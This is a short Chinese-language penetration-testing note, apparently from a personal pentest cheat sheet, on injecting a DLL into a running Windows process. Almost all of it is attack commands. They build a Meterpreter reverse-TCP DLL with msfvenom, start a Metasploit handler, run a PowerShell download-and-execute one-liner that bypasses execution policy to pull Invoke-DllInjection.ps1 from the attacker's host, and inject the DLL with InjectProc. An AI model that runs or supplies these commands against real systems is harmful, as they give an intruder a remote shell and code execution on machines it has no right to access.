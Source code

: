 #### Powershell
	生成DLL
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=6666 -f dll -o /var/www/html/x.dll
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>Powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.105/powersploit/CodeExecution/Invoke-DllInjection.ps1'); Invoke-DllInjection -ProcessID pid -Dll .\1.dll"
#### InjectProc
	生成DLL
	#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f dll -o /var/www/html/qq.dll
	#use exploit/multi/handler
	#set payload windows/x64/meterpreter/reverse_tcp
	使用如下命令注入进程
	>InjectProc.exe dll_inj qq.dll xx.exe(存在的进程)
![image](/assets/Pentest_Note/master/img/477.png)